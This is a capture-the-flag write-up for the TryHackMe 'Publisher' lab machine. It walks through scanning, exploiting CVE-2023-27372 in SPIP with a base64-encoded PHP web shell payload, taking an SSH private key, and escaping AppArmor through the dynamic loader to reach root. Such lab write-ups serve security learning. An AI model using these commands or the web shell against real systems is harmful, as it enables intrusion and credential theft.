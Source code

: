 ```yaml
---
title: 'TryHackMe: Publisher'
author: AmcaQt
categories: [TryHackMe]
tags: [web, enumeration, rce, Boot2Root, Directory Fuzzing, Privilege Escalation]
render_with_liquid: false
media_subpath: /images/thm_publisher/
image:
  path: room_card.png
date: 2024-09-10 00:00 +0000
---
```


![Tryhackme Room Link](room_image.PNG){: width="600" height="150" .shadow }
_<https://tryhackme.com/r/room/publisher>_

## Description

The **Publisher** CTF machine is a simulated environment hosting some services. Through a series of enumeration techniques, including directory fuzzing and version identification, a vulnerability is discovered, allowing for Remote Code Execution (RCE). Attempts to escalate privileges using a custom binary are hindered by restricted access to critical system files and directories, necessitating a deeper exploration into the system's security profile to ultimately exploit a loophole that enables the execution of an unconfined bash shell and achieve privilege escalation.

## Gain a Flag

### Enumaration

#### Nmap Scan

```
┌──(root㉿amca)-[/home/amca]
└─# nmap -A -sC -sV -T5 10.10.125.110
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-28 03:54 EST
Warning: 10.10.125.110 giving up on port because retransmission cap hit (2).
Nmap scan report for publisher.thm (10.10.125.110)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Theres two open ports

- 22/SSH
- 80/HTTP

At `MACHINE_IP` we found a static page about `SPIP CMS`

![Web Page](page.PNG)

#### What is the user flag?

Using [Gobuster](https://www.kali.org/tools/gobuster/) we found one directory leads to another clue `/spip`, that shows installation of SPIP CMS

then using [WhatWeb](https://www.kali.org/tools/whatweb/) will give us another clue, that shows version of SPIP is outdated 

![SPIP Version](1-version.PNG)
_SPIP Version 4.2.0_

Did some research online and found about the [exploit](https://github.com/nuts7/CVE-2023-27372) and PoC of the Vulnerabilities which is `Remote Code Execution`

Use the exploit that found on the github, and procced using this command : ~

```
┌──(root㉿amca)-[/home/amca/CVE-2023-27372]
└─# python3 CVE-2023-27372.py -u http://publisher.thm/spip/ -c 'echo PD89YCRfR0VUW2NtZF1gPz4= | base64 -d > shell.php'
```

> -u SPIP application base URL
> -c Command to Execute

now we got shell on the website to make our job easier
> `http://publisher.thm/spip/shell.php`

![](user.jpg)

### Examining the Filesystem

Notice theres `.ssh` directory inside the `/home/think`, I think maybe we can access using ssh key ?

Downloading the `id_rsa` key and testing it against the SSH service as the `think` user, we get a shell on the host.

```
ssh -i amca_key think@MACHINE_IP
think@publisher:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

nice one, using this much easier

### What is the root flag?

Looking for any binaries with a `SUID` bit set, we found `/usr/sbin/run_container`

Using `strings` i have found that it actually executes a bash script from the `/opt` folder

![](2.jpg)

We have write permissions on `/opt/run_container.sh`

```
think@publisher:~$ ls -la /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10 12:40 /opt/run_container.sh
But if we try to write to it, we get permission denied.
```

Using [Linpeas] to gain more info, that's when we found that `AppArmor` is enabled and our shell is not `bash` but `ash`, then we also see that there is an AppArmor profile for our current shell

![](3.PNG)

Now lets use kernel library to spawn an unconfined bash shell

`/ld-linux-x86–64.so.2 /bin/bash`

When this command is executed, it uses the specified `dynamic linker/loader (ld-linux-x86–64.so.2)` to load the required shared libraries and start the `/bin/bash` shell. This method of invoking the linker/loader directly with a binary is a way to execute a binary by explicitly specifying the dynamic linker/loader to use for that particular binary.

then run the file we found earlier `run_container.sh`, and we're `r00t`

![Root Flag](root.jpg)

## Conclusion

Stress a lil bit, but its a fun room. 

## Happy Hacking

https://i.pinimg.com/originals/f7/8a/03/f78a0369ac804cd9276d73ec37b6b3e8.gif